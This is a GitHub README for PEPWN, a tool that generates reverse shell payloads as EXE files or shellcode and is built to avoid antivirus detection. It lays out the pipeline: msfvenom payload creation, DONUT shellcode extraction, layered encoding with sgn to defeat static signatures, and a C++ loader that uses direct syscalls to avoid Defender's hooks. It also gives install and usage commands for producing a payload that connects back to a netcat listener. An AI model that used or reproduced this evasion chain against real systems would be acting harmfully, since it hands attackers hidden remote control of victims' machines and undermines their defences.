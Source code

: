 # PEPWN
PEPWN is a multi-chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

>The creation of the payload in PEPWN is composed of 5 steps:

- [x] It generates an exe payload using msfvenom with the given IP and PORT and saves it in the /tmp directory.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. DONUT is just a project to facilitate extracting shellcodes from executable binaries
- [x] Using the same project DONUT, the tool will apply an encoding logic on the generated payload. But the logic implemented by DONUT is going to get statically detectable because it's using a static pattern of encryption/encoding with a static key. That's why I used a second layer of encoding.
- [x] Apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/). sgn encodes shellcodes using LSFR algorithm with random key in every compilation.
- [x] Transfers it into a shellcode format of use ex: (base64, hex string, and raw data), or create exe file that triggers the shellcode using syscalls.

If the user chooses to create exe file, the tool prepares a c++ file that invokes the shellcode with using syscalls instead of dll calls. For example instead of using "VirtualAlloc" dll call, it uses "NtAllocateVirtualMemory" syscall because the defender can easilly hook dll calls and detect the call to "VirtualAlloc" and consider it as malicious action.

## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```
This command will create an EXE stageless reverse shell payload that connects back to 127.0.0.1 in port 4444. 

## Documentation

>Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 **-f** : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 **-t** : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 **-h** : host/ip/domain of the listener
 
 **-p** : port of the listener
 
 **-H** : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## Usage 

https://youtu.be/SYriAv_FPAg



